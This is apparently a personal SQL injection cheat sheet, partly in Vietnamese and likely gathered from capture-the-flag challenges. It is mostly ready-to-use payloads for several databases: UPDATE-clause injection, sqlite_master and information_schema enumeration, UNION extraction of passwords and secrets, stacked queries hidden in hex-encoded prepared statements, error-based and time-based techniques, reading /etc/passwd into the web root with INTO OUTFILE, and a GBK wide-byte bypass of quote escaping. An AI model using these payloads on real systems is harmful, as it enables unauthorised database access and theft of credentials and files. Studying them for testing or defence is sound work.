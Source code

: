```UPDATE <table_name> SET nickName='name', email='email' WHERE <condition>```
UPDATE usertable SET nickName='capybara',email='test@test.com',password='ce5ca673d13b36118d54a7cf13aeb0ca012383bf771e713421b4d1fd841f539a' WHERE UID='1'
UPDATE usertable SET nickName='',nickName='database()', email='test@test.com',password='ce5ca673d13b36118d54a7cf13aeb0ca012383bf771e713421b4d1fd841f539a' WHERE UID='1'
```
# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='
```
SQLite

```',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='```

```',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='```

```',nickName=(SELECT group_concat(id || "," || author || "," || secret || ":") from secrets),email='```

```' UNION SELECT 1,group_concat(password) FROM users-- -```


# Use Handler de thuc thi cau lenh

HANDLER demo OPEN; HANDLER demo READ FIRST, HANDLER demo READ NEXT, HANDLER demo CLOSE:

# Use preparestatement to execute query 

"select flag from \`1919810931114514\`" => 73656c65637420666c61672066726f6d20603139313938313039333131313435313460

```1'; prepare abc from 73656c65637420666c61672066726f6d20603139313938313039333131313435313460; execute abc```


Sử dụng extractvalue: -1' and extractvalue(1,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata)))-- -

Time base: '1)) union select 1,2,elt((select substr('abc',1,1) from information_schema.schemata limit 0,1)='a',sleep(5))-- -

Sử dụng updateXML: 1',updatexml(1,concat(0x7e,(select database()),0x7e),1))-- -

select name from demo where name = 'dasd' union values(char(97)||char(100)||char(109)||char(105)||char(110))

1/**/union/**/values(char(97)||char(100)||char(109)||char(105)||char(110))

# Load file 
?id=1')) UNION SELECT(select database()),2,3 into outfile "/var/www/html/<web-root>/1.txt";-- -

?id=1')) union select load_file("/etc/passwd"),2,3 into outfile "/var/www/html/<web-root>/2.txt";-- -

# Bypass add slash into single quote us

Nguyên tắc: Khi mySQL sử dụng mã hóa GBK, nó sẽ coi hai ký tự là một ký tự Trung Quốc, ví dụ: %aa%5c là một ký tự Trung Quốc (mã ascii trước đó lớn hơn 128 để đạt được phạm vi ký tự Trung Quốc). Khi chúng ta lọc ', chúng ta thường sử dụng ý tưởng chuyển đổi ' thành \' (hàm hoặc ý tưởng chuyển đổi sẽ được giới thiệu tại thời điểm của mỗi cấp độ).

Do đó, chúng ta đang cố gắng tìm cách loại bỏ \ được thêm vào trước đó, và nói chung có hai cách suy nghĩ:

%df ăn \ Lý do cụ thể là urlencode(\') = %5c%27, chúng ta thêm %df trước %5c%27 để tạo thành %df%5c%27 và mysql được đề cập ở trên sẽ coi hai byte là ký tự Trung Quốc khi mã hóa bằng GBK, trong đó %df%5c là ký tự Trung Quốc và %27 được sử dụng như một ký hiệu riêng biệt bên ngoài, điều này cũng đạt được mục đích của chúng ta.
Lọc ra \ trong \', ví dụ: bạn có thể xây dựng %**%5c%5c%27 và %5c sau sẽ được chú thích bởi %5c trước đó. Đây cũng là một cách để bỏ qua.




